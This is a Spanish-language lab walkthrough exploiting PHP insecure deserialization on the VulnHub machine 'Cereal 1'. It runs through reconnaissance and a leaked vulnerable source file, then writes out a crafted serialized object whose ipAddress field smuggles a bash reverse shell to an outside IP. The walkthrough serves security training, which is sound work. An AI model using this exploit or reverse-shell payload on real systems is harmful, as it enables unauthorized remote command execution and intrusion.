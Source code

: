 Un ataque de deserialización es una vulnerabilidad de seguridad que ocurre cuando una aplicación deserializa (convierte en objeto) datos provenientes de una fuente externa, como una solicitud de red o un archivo. Esta vulnerabilidad puede ser explotada por un atacante malintencionado para ejecutar código malicioso o manipular datos en la aplicación objetivo.

-------------------

Para esta vulnerabilidad vamos a practicar con la máquina cereal 1 de vulnhub:
![[Pasted image 20230711112412.png]]
Hacemos un escaneo con nmap, donde nos fijaremos en lo que corre por la web:
![[Pasted image 20230711112734.png]]
Esta es la web:
![[Pasted image 20230711112754.png]]
Hacemos fuzzing, donde tenemos el directorio /blog y /admin:
![[Pasted image 20230711112828.png]]
Vemos que la web en el directorio /blog no se ve correctamente:
![[Pasted image 20230711112939.png]]
Y esto es debido a que es posible que se esté aplicando virtual hosting, por lo que miramos el código fuente y vemos que los recursos los está intentando cargar de un cereal.cft:
![[Pasted image 20230711113013.png]]
Por lo que tenemos que añadirlo al /etc/hosts:
![[Pasted image 20230711113104.png]]
Y ahora ya se ve bien:
![[Pasted image 20230711113115.png]]
Ahora si miramos el otro puerto 44441 que también corría un servicio HTTP, vemos que nos sale lo siguiente:
![[Pasted image 20230711113441.png]]
Y dentro de este puerto vamos a buscar subdominios y añadimos el que nos encontró:
```bash
gobuster vhost -u http://cereal.ctf:44441/ -w subdomains-top1million-5000.txt 
```
![[Pasted image 20230711114040.png]]
Y accedemos a este panel:
![[Pasted image 20230711114117.png]]
Podemos probar si se ejecuta de verdad un ping poniéndonos en escucha con tcpdump con este parámetro y vemos que hay conectividad:
```bash
tcpdump -i eth0 -n
```
![[Pasted image 20230711114353.png]]
Vamos a volver a ejecutar un ping pero interceptamos la petición con burpsuite:
![[Pasted image 20230711114742.png]]
Y tenemos un objeto con información:
![[Pasted image 20230711114803.png]]
Pero esa data viene url encodeada, para decodificarla podemos presionar control + shift + u:
![[Pasted image 20230711114859.png]]
Ahora en este punto, hay un directorio dentro de la máquina donde podemos ver cómo se efectúa esta deserialización por detrás, por tanto para encontrar esta ubicación podemos usar gobuster nuevamente pero con un diccionario mucho más grande:

Y esta es la ubicación donde no tenemos permisos:
![[Pasted image 20230711115536.png]]
Pero ahora podemos hacer búsqueda por extensiones de archivos, donde tras ir probando extensiones, nos encontramos el /index.php.bak:
![[Pasted image 20230711115721.png]]
Y nos encontramos con esto:
![[Pasted image 20230711115752.png]]
Y si miramos el código fuente, podemos acceder a cómo se tramita la deserialización por detrás:
```php
<?php

class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();

	}

	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }

}

if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>
<head>
<script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
<script>
function submit_form() {
		var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
		object = object.substr(object.indexOf(\"{\"),object.length);
		object = \"O:8:\\\"pingTest\\\":1:\" + object;
		document.forms[\"ipform\"].obj.value = object;
		document.getElementById('ipform').submit();
}
</script>
<link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
<title>Ping Test</title>
</head>
<body>
<div class=\"form-body\">
<div class=\"row\">
    <div class=\"form-holder\">
	<div class=\"form-content\">
	    <div class=\"form-items\">
		<h3>Ping Test</h3>
		
		<form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>

		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```
![[Pasted image 20230711115847.png]]
Y aquí en esta parte podemos ver cómo se valida que el input sea una IP y no se pueda colar ningún otro comando; pero nuestro objetivo es poder insertar un comando dentro de la variable ipAddress:
![[Pasted image 20230711120121.png]]
Por tanto vamos a crear un nuevo fichero con la data del principio manipulada para después serializarlo y colarlo en burp suite para ejecutar un comando de forma remota:
```php
<?php

class pingTest {
        public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.0.30/443 0>&1'";
        public $isValid = True;
        public $output = "";
}

echo urlencode(serialize(new pingTest));
```
![[Pasted image 20230711121213.png]]
Si lo ejecutamos, gracias al echo del final, tendremos el texto deserializado:
![[Pasted image 20230711121239.png]]
Por tanto volvemos a la ventana del principio e interceptamos nuevamente la petición:
![[Pasted image 20230711121327.png]]
![[Pasted image 20230711121511.png]]
Si pegamos en la última línea el código serializado de antes con el código malicioso, lograremos ejecutar un comando de forma remota, y por tanto obtener una reverse shell:
![[Pasted image 20230711121610.png]]
![[Pasted image 20230711121633.png]]
Si lo ejecutamos, obtenemos una reverse shell:
![[Pasted image 20230711121655.png]]
